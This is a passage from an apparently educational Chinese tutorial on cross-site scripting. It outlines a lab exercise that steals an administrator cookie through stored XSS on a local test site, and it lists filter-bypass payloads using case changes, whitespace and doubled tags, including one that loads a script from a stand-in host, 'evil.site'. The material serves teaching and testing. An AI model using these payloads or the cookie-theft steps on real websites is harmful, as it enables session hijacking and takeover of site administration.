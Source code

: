 <img src="https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240724112005988.png" alt="image-20240724112005988" style="zoom:50%;" />

```
绿色：表示模块适合目标浏览器，并且执行结果对客户端不可见
橙色：模块可用，但结果对用户可见（CAM 弹窗申请权限）
灰色：模块未在目标浏览器上测试过
红色：表示模块不适用与当前用户，有些红色模块也可以正常执行
```

##### 3.3.4 实验设计

攻击机：kali  ip:192.168.191.130

靶机：windows 10  ip:192.168.191.134

1.在靶机中通过phpstudy搭建efucms靶场，已知该靶场后台登录目录为admin，默认管理员账号密码均为admin（该靶场存在反射型XSS和存储型XSS）

2.找到靶场中存储型XSS的漏洞点

3.通过注入恶意javascript文件，获取管理员cookie信息

4.通过获取到的管理员cookie，进行后台登录，控制网址后台

### 四、XSS的攻击技巧

在实际环境中，并不是在所有场景下都可以直接嵌入入<script>标签的，XSS 漏洞的利用技巧比复杂。下面介绍一些常见的 XSS 攻击技巧，它们也是在设计网站安全方案时需要注意的地方。

#### 4.1 基本的变形

##### 4.1.1大小写变换

最简单的变形方式是更改字母的大小写。HTML标签是大小写不敏感的，因此以下都是语法正确的 Payload:

```
<sCrIpT>alert(document.domain)</ScRIpT>
<sCrIpT SrC="//evil.site/evil.js"></SCRIpT>
```

**eg**:xss-lab less6

```
'"><a HREF='javascript:alert(123);'>点击我</a>
```

##### 4.1.2 空白字符绕过

如果应用中的安全过滤函数只是简单地检测输入参数中有没有<script>特征，则可以通过填充空白字符(空格、制表符、换行) 来绕过检测:

```
<script
>alert(document.domain)</script >
```

##### 4.1.3 双写绕过

有的安全过滤函数只是将“<script>”等字符串删掉，如果提交如下** Payload，经过“安全过滤函数”处理一次后即可还原成有效的Payload:

```
<scr<script>ipt>alert(document.domain)</scrscriptipt>
```
